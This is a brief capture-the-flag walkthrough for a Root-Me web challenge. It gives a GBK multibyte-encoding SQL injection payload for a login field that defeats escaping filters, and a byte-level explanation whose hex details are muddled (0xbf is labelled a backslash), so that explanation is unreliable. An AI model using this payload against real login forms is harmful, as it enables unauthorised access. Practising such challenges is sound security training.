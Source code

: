 1. [Open the task](http://challenge01.root-me.org/web-serveur/ch42/)

2. Enter the following in the login field:

> admin乗' OR 1=1; -- 乗'

###Filtering functions to protect against SQL injections may not be useful against some encodings, such as GBK.
' 	-	0x27
\	-	0x5c
乗 	- 	0x815c 
乗'	- 	0x815c27 

###After processing:
Filtering functions add 0xbf (\) before 0x5c (\) and 0x27 (')
0x81**bf**5c**bf**27 = 0x81bf & 0x5cbf & **_0x27_**


3. **Capture the flag!**